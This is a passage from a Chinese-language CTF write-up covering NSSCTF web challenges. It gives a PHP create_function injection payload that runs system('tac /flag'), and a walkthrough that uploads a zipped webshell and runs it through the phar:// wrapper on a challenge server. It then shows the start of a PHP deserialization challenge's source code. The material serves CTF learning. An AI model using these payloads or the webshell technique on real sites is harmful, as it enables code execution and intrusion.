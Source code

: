 create_function注入

payload

```
?a=\create_function&b=}system('tac /flag');//
```

![](https://s2.loli.net/2022/05/15/sTZcBmol2A7E9qW.png)

## bingdundun~

点击uploads，GET传参

![](https://nssctf.wdf.ink/img/xmj/image-20220518235012721.png)

看见压缩包，马上想到`phar://`协议，直接上传压缩后的木马文件

![](https://nssctf.wdf.ink/img/xmj/image-20220518235809605.png)

解析成功

![](https://nssctf.wdf.ink/img/xmj/image-20220519000238960.png)

上传成功，接下来直接去连接`http://1.14.71.254:28899/?bingdundun=phar:///var/www/html/0202dde75672643a515696e8c70c704b.zip/1.php`离谱的是返回数据为空

仔细审计后，发现点击uploads后是`?bingdundun=upload`没有`.php`改为index

<img src="https://nssctf.wdf.ink/img/xmj/image-20220519000523198.png" alt="image-20220519000523198" style="zoom:50%;" />

可能是自动添加`.php`后缀，去掉再连接

`http://1.14.71.254:28899/?bingdundun=phar:///var/www/html/0202dde75672643a515696e8c70c704b.zip/1`

果然自动添加，直接去根目录拿到flag

![](https://nssctf.wdf.ink/img/xmj/image-20220519000051637.png)

## babyserialize

源码：

```php
<?php
include "waf.php";
class NISA{
    public $fun="show_me_flag";
    public $txw4ever;
    public function __wakeup()
    {
        if($this->fun=="show_me_flag"){
            hint();
        }
    }

    function __call($from,$val){
        $this->fun=$val[0];
    }

    public function __toString()
    {
        echo $this->fun;
        return " ";
    }
    public function __invoke()
    {
```